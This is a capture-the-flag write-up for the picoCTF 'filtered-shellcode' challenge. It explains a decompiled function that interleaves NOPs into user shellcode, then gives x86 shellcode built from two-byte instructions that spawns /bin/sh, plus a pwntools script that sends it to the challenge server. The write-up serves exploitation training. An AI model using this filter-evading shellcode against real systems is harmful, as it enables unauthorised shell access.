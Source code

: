 # Writeup - filtered-shellcode
Category: Binary Exploitation, Points: 160


## Descpriton

> A program that just runs the code you give it? That seems kinda boring... 

We can connect to it with ` nc mercury.picoctf.net 37853` and a 32-bit binary file is shared.


## Vulnerability

If we decompile the binary through `ghidra` we get two functions inside the file. `main` and `execute`. The `main` function simply reads input character by character but the `execute` function is important.

Code for the `execute` function.

```c
void execute(int shellcode,int len)
{
  uint uVar1;
  undefined4 uStack48;
  undefined auStack44 [8];
  undefined *local_24;
  undefined *local_20;
  uint local_1c;
  uint double_len;
  int local_14;
  uint i;
  int j;
  int start;
  
  uStack48 = 0x8048502;
  if ((shellcode != 0) && (len != 0)) {
    double_len = len * 2;
    local_1c = double_len;
    start = ((double_len + 0x10) / 0x10) * -0x10;
    local_20 = auStack44 + start;
    local_14 = 0;
    for (i = 0; j = local_14, i < double_len; i = i + 1) {
      uVar1 = (uint)((int)i >> 0x1f) >> 0x1e;
      if ((int)((i + uVar1 & 3) - uVar1) < 2) {
        local_14 = local_14 + 1;
        auStack44[i + start] = *(undefined *)(shellcode + j);
      }
      else {
        auStack44[i + start] = 0x90;
      }
    }
    auStack44[double_len + start] = 0xc3;
    local_24 = auStack44 + start;
    *(undefined4 *)(auStack44 + start + -4) = 0x80485cb;
    (*(code *)(auStack44 + start))();
    return;
  }
                    /* WARNING: Subroutine does not return */
  exit(1);
}
```

This function basically runs shellcode, except if for every 2 bytes of shellcode it replaces the bytes with `0x90`. `0x90` means `nop`. So, if our shellcode is just written as is. It would be replaced with `0x90` for every 2 bytes.

Hence, our shellcode must have instructions that are at most 2 bytes long. 

The main idea is to call `execve("//bin/sh", NULL, NULL)`. But to do this successfully, our shellcode has to have 2-byte instructions. 

We can do this by converting assembly code into shellcode, with `pwntools`. So the main task is to come up with the assembly code to call `execve("//bin/sh", NULL, NULL)`.


## Exploit

The hard part is not calling `//bin/sh` with `execve`. It is writing the shellcode.

For context. `eax, ebx, ecx, edx` are general purpose registers. Each register has a purpose. With respect to the problem at hand `eax` acts like the function invoker. `ebx` is generally the first argument to the function, then `ecx` is second, `edx` is third so on.

To know more about 32-bit calling conventions. Visit this [page](https://chromium.googlesource.com/chromiumos/docs/+/master/constants/syscalls.md#x86-32_bit)

The basic plan:

1. Push `//bin/sh` on to the stack, so that `esp` points to it.
2. `mov ebx, esp` register and assign `ecx` and `edx` to `0`. This would move `//bin/sh` to `ebx`.
3. `mov al, 11`. `11` is the 32-bit syscall for `execve`. This moves `execve` to `eax`.
4. `int 0x80` to call `execve` which would have `ebx` as its first argument.

```assembly
; Push //bin/sh on stack (one more slash to avoid null byte)
xor eax, eax
push eax
push `n/sh`
push `//bi`

; Set parameters
mov ebx, esp
xor ecx, ecx
xor edx, edx

; call execve
mov al, 11
int 0x80

; exit
mov al, 1
xor ebx, ebx
int 0x80
```

Now this is quite straightforward except that we need create 2-byte instruction shellcode.

Let's focus on how to trim each instruction to 2-bytes. If we now dig deeper into assembly x86, for each GP register, we have a way the data is stored.

```console
eax -> 00000000 00000000 00000000 00000000 
## If we set eax to something, say 104 -> mov al, 104
eax -> 00000000 00000000 00000000 00000104
## eax is 32 bit or 4 bytes long
## So, if can move the value towards the MSB we would have a 2-byte instruction.
```

To make a 2 byte instruction in `eax` we should keep multiplying `eax` into `16*16`. Since the binary for `256` is `100000000`, this would shift the value in `eax` by 8 bits. Which would inturn do this.

```console
eax -> 00000000 00000000 00000104 00000000
## Now eax contains a 2-byte instruction
```

Here is the final exploit.

```python
## this code is shamelessly copied - the refrence link has the original

import sys

from pwn import *

shellcode = """
/* set all GPRs to 0 */
xor eax, eax
xor ebx, ebx
xor ecx, ecx
xor edx, edx

/* set the lower bit ebx to 16 */
mov bl, 16

/* push nop to esp */
push ecx
nop

/* n/sh -> (110, 47, 115, 104) */
mov al, 104
mul ebx
mul ebx
mov al, 115
mul ebx
mul ebx
mov al, 47
mul ebx
mul ebx
mov al, 110
push eax
nop

/* //bi -> (47, 47, 98, 105) */
xor eax, eax
mov al, 105
mul ebx
mul ebx
mov al, 98
mul ebx
mul ebx
mov al, 47
mul ebx
mul ebx
mov al, 47
push eax
nop

/* syscall to execve (eax ebx) */
xor eax, eax
mov al, 11
mov ebx, esp
int 0x80

/* exit call to set ebx to 0*/
mov al, 1
xor ebx, ebx
int 0x80
"""

print(asm(shellcode))

sh = remote("mercury.picoctf.net", "37853") if sys.argv[1] == "remote" else process("./fun")
sh.recvuntil("run:")
sh.sendline(asm(shellcode))
sh.interactive()
```

You should get the flag.


## Reference
[Link](https://github.com/apoirrier/CTFs-writeups/blob/master/PicoCTF/Pwn/filtered-shellcode.md)

